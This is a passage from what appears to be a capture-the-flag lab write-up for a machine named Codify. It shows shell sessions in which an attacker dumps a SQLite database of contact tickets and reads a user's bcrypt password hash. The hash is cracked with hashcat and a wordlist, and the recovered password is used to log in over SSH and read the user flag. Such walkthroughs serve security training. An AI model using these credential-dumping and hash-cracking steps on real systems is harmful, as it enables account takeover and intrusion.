 ```bash
cd html
svc@codify:/var/www/html$ ls
ls
index.html
svc@codify:/var/www/html$ cd ..
cd ..
svc@codify:/var/www$ cd contact
cd contact
svc@codify:/var/www/contact$ ls
ls
index.js
package.json
package-lock.json
templates
tickets.db
svc@codify:/var/www/contact$ cat tickets.db
cat tickets.db
?T5??T?format 3@  .WJ
       ?otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)??    tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
??G?joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
??
????ua  users
             tickets
r]r?h%%?Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open? ;?wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:/var/www/contact$
```

The hash is successfully brute-forced.

```bash
3200 | bcrypt $2*$, Blowfish (Unix) | Operating System

??G?joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

```bash
$ hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Use the password to connect via SSH.

```bash
$ ssh joshua@10.10.11.239
spongebob1

joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
316e2f9efd64ef14ee0622ef76d9f661
joshua@codify:~$
```
